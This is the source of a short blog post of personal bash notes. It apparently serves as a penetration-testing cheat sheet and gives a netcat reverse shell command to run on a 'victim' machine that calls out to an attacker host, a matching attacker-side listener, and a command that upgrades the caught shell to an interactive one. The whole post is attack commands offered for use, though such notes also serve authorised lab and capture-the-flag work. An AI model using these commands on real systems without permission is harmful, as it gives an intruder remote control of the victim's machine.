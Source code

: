 ```yaml
---
layout: post
title: 'Notes | Bash'
permalink: /notes/system/bash/
---
```


# [](#header-4)Reverse Shell
If we can execute code in the victim:
{% highlight plain %}
... nc -e /bin/sh <ip>:<port>
{% endhighlight %}

While in the attacker:
{% highlight plain %}
> nc -lvnp <port>
{% endhighlight %}

# [](#header-4)After a reverse shell...
We can get a interactive shell with the following command:
{% highlight plain %}
> script /dev/null -c bash
{% endhighlight %}

